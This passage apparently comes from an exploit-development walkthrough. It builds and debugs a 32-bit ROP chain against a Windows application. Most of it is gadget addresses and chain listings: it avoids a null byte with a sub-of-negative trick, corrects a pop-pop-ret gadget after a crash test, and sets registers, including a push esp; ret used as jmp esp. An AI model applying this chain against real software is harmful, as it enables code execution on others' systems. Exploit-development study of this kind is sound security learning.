 The above is super close, the only issue is `0x05de34` will be padded to include a null byte. Instead of `add eax, ebp` we could do `sub eax, ebp` and have `ebp` be a negative so it is basically the same.
```
0x10064def: pop edi; ret;
0x10040826: ret;
0x100fd644: pop eax; ret;
0x1016a0b0
0x1014fc8c: mov eax, dword ptr [eax]; ret;
0x1005edc5: pop ebp; ret;
0x100000000 - 0x05de34;
0x1014e1a8: sub eax, ebp; pop esi; pop ebp; pop ebx; ret;
0x90909090
0x90909090
0x90909090
0x10138850: mov esi, dword ptr [eax]; push eax; call edi;
```

That should be the final chain!

After adding it to python and re crashing the app. Running this I got one thing wrong, there should be a `pop pop ret` in edi not a `ret`

Giving the final chain of:
```
0x100fd644: pop eax; ret;
0x1016a0b0
0x1014fc8c: mov eax, dword ptr [eax]; ret;
0x1005edc5: pop ebp; ret;
0x100000000 - 0x05de34;
0x1014e1a8: sub eax, ebp; pop esi; pop ebp; pop ebx; ret;
0x90909090
0x90909090
0x90909090
0x10064def: pop edi; ret;
0x1015a2f0: pop eax; pop ebx; ret;
0x10138850: mov esi, dword ptr [eax]; push eax; call edi;
```


# Setting the rest of the registers
## EAX
```
0x100fd644: pop eax; ret;
0x90909090
```
easy

## EBP
```
0x100bc9e5: push esp; ret;
```
It's the same as a `jmp esp;`
